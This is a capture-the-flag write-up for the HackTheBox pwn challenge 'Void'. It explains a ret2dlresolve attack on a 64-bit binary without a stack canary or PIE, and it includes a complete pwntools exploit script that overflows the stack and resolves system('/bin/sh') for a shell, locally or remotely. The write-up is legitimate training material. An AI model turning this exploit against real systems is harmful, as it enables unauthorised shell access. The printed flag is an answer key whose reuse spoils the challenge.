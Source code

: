 # Void
> Write-up author: jon-brandy

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/e143942d-bd1e-49df-9712-02db91812b63)


## Lessons Learned:
1. Stack-Based Exploitation.
2. Implement ret2dlresolve attack.

## DESCRIPTION:
The room goes dark and all you can see is a damaged terminal. Hack into it to restore the power and find your way out.

## STEPS:
1. In this challenge we're given a 64 bit binary - not stripped.

![image](https://github.com/Bread-Yolk/hackthebox/assets/70703371/051edd67-8036-4c74-bdbc-9f7a144140ec)

> No Canary Found, PARTIAL RELRO, NO PIE

![image](https://github.com/Bread-Yolk/hackthebox/assets/70703371/883735c5-0bb9-4f85-9485-e5de52f1ce4e)


2. Let's decompile the binary with ghidra.
3. At the main() function, there's only one function called --> vuln()

![image](https://github.com/Bread-Yolk/hackthebox/assets/70703371/c762cb32-c0fd-4976-b2af-6725b8c9965b)


4. At first, i assume that the chall must be related to `ret2libc` because there's no interesting function to return to.
5. But after checking the **Global Offset Table** turns out there are no `puts()`, `printf()`, or `write()` functions.
6. Then i realized it's a `ret2dlresolve` pwn challenge. It's a technique in pwn to manipulate the dyanmic linker's resolution process and redirect it to execute arbitrary code.
7. Actually it's `quite similiar` to overwrite GOT with format strings vuln.
8. Also we can utilize **pwntools** to automate the process to resolve the functions, because if we don't use pwntools, we need to construct 3 structures to fake.

```console
There're 3 structures we need to fake:
- STRTAB
- SYMTAB
- JMPREL
```

9. Here's the script i used to solve this:

```py
from pwn import *
import os 

os.system('clear')

def start(argv=[], *a, **kw):
    if args.REMOTE:
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:
        return process([exe], *a, **kw)

exe = './void'
elf = context.binary = ELF(exe, checksec=True)
context.log_level = 'DEBUG'

sh = start()

padding = 72

rop = ROP(elf)

dlresolve = Ret2dlresolvePayload(elf, symbol='system', args=['/bin/sh'])
rop.raw(asm('nop') * padding)
rop.read(0, dlresolve.data_addr)
rop.ret2dlresolve(dlresolve)

sh.sendline(rop.chain())
sh.sendline(dlresolve.payload)

sh.interactive()
```

> LOCALLY

![image](https://github.com/Bread-Yolk/hackthebox/assets/70703371/57498dbc-34a6-45b1-aa52-0c1c9568caf8)


10. Let's send it remotely.

![image](https://github.com/Bread-Yolk/hackthebox/assets/70703371/48407f72-6cd6-431d-a2ff-54578d5302a2)


11. Got the flag!

## FLAG

```
HTB{pwnt00l5_h0mep4g3_15_u54ful}
```

